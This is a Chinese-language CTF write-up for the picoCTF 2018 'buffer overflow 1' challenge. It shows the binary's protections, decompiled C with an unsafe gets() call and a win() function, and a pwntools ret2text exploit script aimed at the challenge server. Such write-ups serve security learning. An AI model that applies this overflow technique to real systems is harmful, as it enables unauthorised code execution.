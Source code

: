 ```yaml
---
author: 
  name: Zephyr
title: picoctf 2018 buffer overflow 1
date: 2022-4-2 13:10:25
permalink: /pages/2e1547494524d1a3
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# picoctf 2018 buffer overflow 1

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/picoctf_2018_buffer_overflow_1/PicoCTF_2018_buffer_overflow_1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // ST1C_4

  setvbuf(_bss_start, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

vuln函数如下

```c
int vuln()
{
  int v0; // eax
  char s; // [esp+0h] [ebp-28h]

  gets(&s);
  v0 = get_return_address();
  return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", v0);
}
```

win函数如下

```c
int win()
{
  char s; // [esp+Ch] [ebp-4Ch]
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  fgets(&s, 64, stream);
  return printf(&s);
}
```



## 思路分析

1. 目前信息：
   
   - 存在后门函数win可打印flag
   - No canary found
   - NX disabled
   - No PIE
   - Has RWX segments
2. 思路：
   - 32位ret2text

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/picoctf_2018_buffer_overflow_1/PicoCTF_2018_buffer_overflow_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27519)
elf = ELF(pwnfile)
padding = 0x28+4
puts_flag_addr = elf.symbols['win']
payload = flat(['a'*padding, puts_flag_addr])
io.sendlineafter('Please enter your string: \n', payload)
io.recvuntil('\n')
print(io.recv())
```